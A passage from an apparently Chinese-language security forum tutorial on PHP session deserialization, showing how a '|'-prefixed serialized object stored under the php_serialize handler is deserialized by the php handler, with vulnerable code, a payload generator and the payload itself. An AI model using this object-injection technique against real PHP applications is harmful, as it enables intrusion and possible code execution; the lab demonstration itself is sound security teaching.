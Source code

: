```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class student{
    var $name;
    var $age;
    function __wakeup(){
        echo "hello ".$this->name."!";
    }
}
?>
```

攻击思路：

首先访问1.php，在传入的参数最开始加一个'|'，由于1.php是使用php\_serialize引擎处理，因此只会把'|'当做一个正常的字符。然后访问2.php，由于用的是php引擎，因此遇到'|'时会将之看做键名与值的分割符，从而造成了歧义，导致其在解析session文件时直接对'|'后的值进行反序列化处理。

这里可能会有一个小疑问，为什么在解析session文件时直接对'|'后的值进行反序列化处理，这也是处理器的功能？这个其实是因为session\_start()这个函数，可以看下官方说明：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-08b434c44670c2b26d570add08ec6fa262f25e0f.png)

首先生成一个payload：

```php
<?php
    class student{
        var $name;
        var $age;
    }
    $a = new student();
    $a->name =  "daye";
    $a->age = "100";
    echo serialize($a);
?>

#O:7:"student":2:{s:4:"name";s:4:"daye";s:3:"age";s:3:"100";}
```

攻击思路中说到了因为不同的引擎会对'|'，产生歧义，所以在传参时在payload前加个'|'，作为a参数

payload:

```php
|O:7:"student":2:{s:4:"name";s:4:"daye";s:3:"age";s:3:"100";}
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-30de38b3350b1a1a25c800b380534da07ff68659.png)

访问1.php,查看一下本地session文件，发现payload已经存入到session文件

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-c7ba4a75c56064f16f538adc81581b0c6dcafac3.png)

php\_serialize引擎传入的payload作为lemon对应值，而php则完全不一样：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-9ea4fc3715fc7d27d330a5045f1b7cca4d39de4e.png)
